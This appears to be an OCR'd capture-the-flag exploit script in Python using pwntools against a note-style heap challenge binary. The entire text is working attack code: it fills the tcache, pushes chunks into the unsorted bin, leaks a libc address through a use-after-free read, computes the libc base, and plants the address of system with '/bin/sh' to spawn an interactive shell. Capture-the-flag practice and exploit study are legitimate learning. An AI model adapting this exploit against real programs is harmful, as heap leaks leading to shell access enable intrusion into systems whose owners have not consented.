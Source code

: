 ```python
        r.clean(timeout=.5).decode()
        r.sendline(data)
        r.clean(timeout=.5).decode()

    def delete(page):
        r.sendline(b'2')
        r.clean(timeout=.5).decode()
        r.sendline(str(page).encode())
        r.clean(timeout=.5).decode()

    def leak(page):
        r.sendline(b'3')
        r.clean(timeout=.5).decode()
        r.sendline(str(page).encode())
        r.recvuntil(b'Page content: ')
        leak = r.recvline().strip()
        return leak

    # good luck pwning :)

    # Alloc 7 chunks to fill tcache
    for i in range(7):
        add(i, b'A' * 8)
    # Alloc two more chunks to go in unsorted bin
    add(7, b'A' * 8)
    add(8, b'A' * 8)
    # Alloc another chunk to prevent consolidation between other chunks and top chunk
    add(9, b'A' * 8)

    # Free 7 chunks into tcache
    for i in range(7):
        delete(i)

    delete(7) # Cause consolidation so that
    delete(8) # chunk lands in unsorted bin
    leak = u64(leak(7).ljust(8, b'\x00'))
    log.info('Leak : %s' % hex(leak))
    libc.address = leak - 0x21ace0
    log.success('libc base : %s' % hex(libc.address))

    add(0, hex(libc.sym.system).encode())
    add(1, b'/bin/sh')

    r.sendline(b'42')
    r.clean(timeout=.5)
    r.interactive()


if __name__ == "__main__":
    main()
```
